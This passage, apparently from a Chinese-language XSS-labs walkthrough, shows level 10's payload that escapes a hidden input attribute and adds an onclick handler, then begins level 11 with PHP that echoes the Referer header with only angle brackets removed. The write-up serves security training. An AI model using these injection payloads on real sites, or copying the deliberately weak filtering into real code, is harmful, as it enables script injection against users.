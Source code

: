 ![image-20240819220557467](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819220557467.png)

##### t_sort

```js
?t_sort=<script " 'Oonn>
```

有内容

```html
<input name="t_sort"  value="script " 'Oonn" type="hidden">
```

![image-20240819220630553](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819220630553.png)

前后**尖括号<>**被过滤了。

将payload设置成可以**点击**可以弹窗的**按钮**。

### 隐藏参数+onclick标签+按钮 

```js
?t_sort=click"type="button" onclick="alert(/xss/)
```

### 运行

```js
http://192.168.70.10:8084/level10.php?t_sort=click"type="button" onclick="alert(/xss/)
```

![image-20240819220742586](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819220742586.png)



## level11 Referer

### 访问

http://192.168.70.10:8084/level11.php?keyword=good%20job!

![image-20240819221836293](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819221836293.png)

### 源代码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
